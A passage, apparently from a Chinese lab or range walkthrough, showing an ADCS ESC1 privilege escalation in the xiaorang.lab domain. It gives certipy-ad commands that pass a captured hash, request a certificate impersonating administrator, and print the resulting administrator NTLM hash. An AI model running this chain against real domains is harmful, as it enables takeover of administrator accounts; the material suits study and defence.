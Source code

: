 抓到用户哈希

```bash
proxychains certipy-ad find -u win2012\$@xiaorang.lab -hashes 00000000000000000000000000000000:b35fa31e83a934b872824eeb8d9426ea -dc-ip 172.22.61.17 -vulnerable
```

ADCS 发现 ESC1，有 win2012 可利用的模板，申请一下证书

```bash
proxychains certipy-ad req -u win2012\$@xiaorang.lab -hashes 00000000000000000000000000000000:b35fa31e83a934b872824eeb8d9426ea -target 172.22.61.17 -ca xiaorang-DC-CA-CA -template win2012 -upn administrator@xiaorang.lab
```

[![](assets/1708919820-2f9a4965e1d3866b9ef45faae90a6488.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024957-d96ef376-cb69-1.png)

转换格式请求 TGT

```bash
proxychains certipy-ad auth -pfx administrator.pfx -dc-ip 172.22.61.17
```

[![](assets/1708919820-3aa8dc588b99c357282c59d360ea90eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215025001-dbc848de-cb69-1.png)

```bash
aad3b435b51404eeaad3b435b51404ee:e26a28fd9daa8a6a4d3c5adbbdcb0f53
```
